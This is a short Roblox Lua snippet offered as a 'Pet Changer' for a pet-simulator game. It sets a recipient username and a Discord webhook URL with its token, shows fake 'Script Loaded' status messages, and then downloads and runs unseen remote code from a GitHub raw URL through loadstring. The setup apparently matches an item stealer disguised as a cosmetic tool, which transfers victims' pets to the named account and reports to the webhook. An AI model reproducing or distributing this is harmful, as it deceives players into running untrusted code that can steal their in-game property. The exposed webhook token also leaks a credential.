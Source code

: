 Username = "Coryxkashin2"

WebHook = "https://discord.com/api/webhooks/1077477766770995250/fmC4OowZGgeQZN4T-VpHTbMvJJjJ70klbGl6C3o5Hry06Pk97EXoce0iqVSxXHVucKEN"

_G.CustomScriptName = "Pet Changer"

_G.Text1 = "Script Loaded..."

_G.Text2 = "Waiting for Script"

_G.Text3 = "Checking Scripts..."

_G.Text4 = "Starting Scripts..."

loadstring(game:HttpGet("https://raw.githubusercontent.com/Justanotherdme/petsimx22/main/petsimguiss.lua"))()
